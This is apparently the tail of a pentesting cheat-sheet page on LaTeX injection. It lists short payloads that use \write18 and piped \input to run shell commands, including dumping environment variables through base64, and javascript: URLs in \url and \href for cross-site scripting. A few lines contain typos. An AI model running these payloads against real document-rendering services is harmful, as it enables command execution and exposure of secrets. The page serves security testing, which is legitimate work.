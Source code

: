 
If you get any LaTex error, consider using base64 to get the result without bad characters

```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```bash
\input|ls|base4
\input{|"/bin/hostname"}
```

### Cross Site Scripting <a href="#cross-site-scripting" id="cross-site-scripting"></a>

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130)

```bash
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

## Ghostscript Injection

TODO: Create a summary with the more relevant information and techniques from [https://blog.redteam-pentesting.de/2023/ghostscript-overview/](https://blog.redteam-pentesting.de/2023/ghostscript-overview/)

## References

* [https://notsosecure.com/data-exfiltration-formula-injection-part1](https://notsosecure.com/data-exfiltration-formula-injection-part1)
* [https://0day.work/hacking-with-latex/](https://0day.work/hacking-with-latex/)
* [https://salmonsec.com/cheatsheet/latex\_injection](https://salmonsec.com/cheatsheet/latex\_injection)
* [https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/](https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

<figure><img src="../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.
